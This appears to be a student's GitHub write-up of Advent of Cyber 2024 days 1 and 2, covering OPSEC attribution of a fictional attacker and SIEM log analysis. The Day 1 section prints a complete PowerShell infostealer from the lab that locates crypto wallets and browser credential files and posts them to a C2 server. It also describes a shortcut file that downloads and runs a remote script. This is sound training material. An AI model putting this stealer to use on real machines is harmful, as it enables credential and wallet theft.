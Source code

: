 # Advent Of Cyber 2024 🎄
Just a collection of what we did and learn on each day throughout the event.

## Day 01 (OPSEC)
So it basicly was about exploring a wesite which downloading a extra file with each download, when we use 'file' command we found it is a MS Windows Shortcut and then later to look at the meta-data this file was holding we used "Exiftool" to read it. We found it was running few powershell command which was disabling the restrictions and downloading the file from `"https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1"` and storing it in the `"C:\\ProgramData\\"` and then executing the script.

the script was :
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

The link of the script which is `"https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1"` so in here `MM-WarevilleTHM` is the github username of the person from which the script is downloading, now we know it's him but if we like to gather some more proof then, we look out for some unique part of the script `"Created by the one and only M.M"` and then try to search it on the github, which lead us to this issue:
`https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1` where user `MM-WarevilleTHM` was trying to ask questions about creating this script. 

when we go to his profile's username repository this is what we found:
```
- 🦹‍♂️ Hi, I’m M.M, also known as Mayor Malware. I run things in Wareville Town.
- 👀 This year, SOC-mas is not going to happen and I will do all I can to sabotage it.
- 🌱 I'll develop all necessary tools and plans to sabotage the event and frustrate the citizens of Wareville. One thing is to find someone to blame for all this. Maybe Glitch will take the blame.
- 📫 How to reach me? Find me around Wareville.
```

In Short:
We caught him. ✨😁

## Day 2 (Log Analysis)
Now we have to check the logs to identify whether it's False Positive or True Positive. 

For this first we login to the Elastic SIEM (Security Information and Event Management) and then we have to check some activity between Dec 1 2024 0900 to 0930 then we found that someone run some Powershell commands on each machine, the usename was `"service_admin"` which was very generic which make it more suspicious.
Then we have to look into the ip address of source which is available for the authentication events, Now we have to look for auth events just before the execution of those Powershell commands.

To get better understanding of the events we expand our search from Nov 29 0000 to Dec 01 2330, where we saw the spike in activity of by user `"service_admin"` to exactly look for the spike we filter out one of the ip address `10.0.11.11` so see for other ip address which we got `10.0.255.1` that got so many failed login attempts which means it was a brute force attack because if this was because of a outdated script then it would not stop even after the sucess of auth but this one stopped after the sucessful login attempt. Now what we have to check is the Process activity it did just after login, which lead use to some similar command being executed which was:

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -EncodedCommand SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==
```

here is a encoded command:
`SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==`

so we goto cyberchef and try to decode it, so generally powershell command usually use Base54 UTF-16LE encoding and we it decoded into the text use use the recipe `From Base64` and `Decode Text` which reveal the real command `Install-WindowsUpdate -AcceptAll -AutoReboot`.
So someone was trying to help the McSkidy and the team secure their defences and no malicious activity happend. 😄 
